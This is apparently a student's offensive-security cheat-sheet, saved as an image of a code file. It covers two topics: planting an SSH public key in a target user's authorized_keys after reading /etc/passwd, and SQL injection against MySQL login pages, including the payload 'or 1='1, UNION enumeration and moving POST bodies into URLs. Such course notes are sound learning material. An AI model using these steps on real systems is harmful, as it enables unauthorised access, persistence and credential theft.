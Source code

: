 //SSH Key Upload
ssh -keygen -t rsa -- on lin-ops
cat ~/.ssh/id_rsa.pub  --copy this
                    --on web host
whoami -- find user                    
cat /etc/passwd -- find users home directory                    
ls -la /users/home/directory      --check if .ssh exists
mkdir /users/home/directory/.ssh   --make .ssh in users home folder if it does not exist
echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys  -- puts ssh key in dir
cat /users/home/directory/.ssh/authorized_keys  -- verify
===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
# WEB EXPLOITATION(SQL)

FOLLOW THE STEPS
we are using "mysql"
we wont be writeing to a database
may be case sensitive
Schema and Database are interchangable
@@Version gives version number
GET -- URL  ---- if you cant type, it is a get method
POST -- input box

if you see username and password input fields, use sql

DONT FORGET ABOUT THE "ESCAPE STRING"

Database(tables(columns(data)))


[Information_schema]
[mysql]               ----- These are defaults
[performance_schema] 

**Select**
**Union**


SHOW DATABASES;
show tables;
select * from session.car;

select * from session.car UNION select name,type,cost,color from session.car:

------------------------------------------------
###TESTING###
IF LOGIN PAGE TEST SQL BY USING THIS
'or 1='1

GO TO DEVCON, OPEN NETWORK TAB, CLICK REQUEST, POST METHOD, HIT 'RAW' SWITCH, COPY CONTENTS
PUT '?' AFTER THE URL, PASTE RAW CONTENTS

THE ONLY THING YOU CAN GET FROM A LOGIN PAGE IS USERNAMES AND PASSWORDS
